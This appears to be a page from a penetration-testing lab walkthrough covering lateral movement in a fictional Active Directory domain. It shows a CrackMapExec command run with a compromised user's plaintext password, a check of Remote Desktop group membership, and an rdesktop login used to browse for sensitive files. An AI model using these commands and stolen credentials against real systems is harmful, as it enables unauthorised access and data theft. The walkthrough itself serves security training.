

+++
title = "Remote Management Interfaces (RMI)"
weight = 3
hidden = false
+++

## Windows Management Instrumentation 
If we had valid credentials for a user with Administrator privileges (so far we do not) We could use wmiexec which is baked 
into CrackMapExec to administer our *192.168.0.130* target.

`cme smb 192.168.0.130 -u richard.f -p "Security24-7" -X dir`

```bash
192.168.0.130   445    FEYNMAN-WINSRV1  [*] Windows 10.0 Build 20348 x64 (name:FEYNMAN-WINSRV1) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
192.168.0.130   445    FEYNMAN-WINSRV1  [+] Sciencerocks.local\richard.f:Security24-7 
```

If this had worked we would see the output of our **dir** command, sadly it did not.

## Remote Desktop (RDP)
The RDP protocol is an interesting avenue of attack for the simple fact that a non-admin user can be provisioned with RDP access to a Windows machine.
While enumerating the Jenkins host we noticed that our compromised Active Directory user appears to be a member of the *Remote Desktop Users* group.

`net localgroup "Remote Desktop Users"`
```bash
out> Alias name     Remote Desktop Users
Comment        Members in this group are granted the right to logon remotely

Members

-------------------------------------------------------------------------------
SCIENCEROCKS\richard.f
The command completed successfully.

 err>
```

We can now access this target graphically using the following command.

`rdesktop 192.168.0.130`


The biggest advantage we get from a graphical connection to a compromised target is convience. Uploading/Downloading files for example is much faster as is browsing the machine and searching for sensitive documents.
